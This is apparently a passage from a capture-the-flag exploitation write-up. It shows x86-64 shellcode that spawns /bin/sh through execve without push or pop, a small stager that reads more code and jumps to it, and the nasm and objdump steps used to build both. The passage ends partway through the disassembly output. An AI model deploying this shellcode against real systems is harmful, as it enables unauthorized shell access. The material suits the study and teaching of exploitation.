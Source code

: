 then here is the shellcode I used to actually get a shell (remember I couldn't use pop/push):
```
gef➤  x/7i $rip
=> 0x7fc1735c607d:	mov    al,0x3b
   0x7fc1735c607f:	lea    rdi,[rip+0xfffffffffffffff8]        # 0x7fc1735c607e
   0x7fc1735c6086:	movabs rcx,0x68732f6e69622f
   0x7fc1735c6090:	mov    QWORD PTR [rdi],rcx
   0x7fc1735c6093:	xor    rsi,rsi
   0x7fc1735c6096:	xor    rdx,rdx
   0x7fc1735c6099:	syscall 
```

Also to assemble the assembly code into opcodes, I just used nasm. Here's an example assembling the assembly file `shellcode.asm`

```
```
$ cat scan.asm 
[SECTION .text]
global _start
_start:
  mov dl, 0xff
  lea rsi, [rel $ +0xffffffffffffffff ] 
  add rsi, 0x43
  syscall
  jmp rsi
$ cat shellcode.asm 
[SECTION .text]
global _start
_start:
  mov al, 0x3b
  lea rdi, [rel $ +0xffffffffffffffff ] 
  mov rcx, 0x68732f6e69622f
  mov [rdi], rcx
  xor rsi, rsi
  xor rdx, rdx
  syscall
$ nasm -f elf64 scan.asm 
$ ld -o scan scan.o
$ nasm -f elf64 shellcode.asm 
$ ld -o shellcode shellcode.o
$ objdump -D scan -M intel

scan:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 <_start>:
  400080: b2 ff                 mov    dl,0xff
  400082: 48 8d 35 f8 ff ff ff  lea    rsi,[rip+0xfffffffffffffff8]        # 400081 <_start+0x1>
  400089: 48 83 c6 43           add    rsi,0x43
  40008d: 0f 05                 syscall 
  40008f: ff e6                 jmp    rsi
$ objdump -D shellcode -M intel
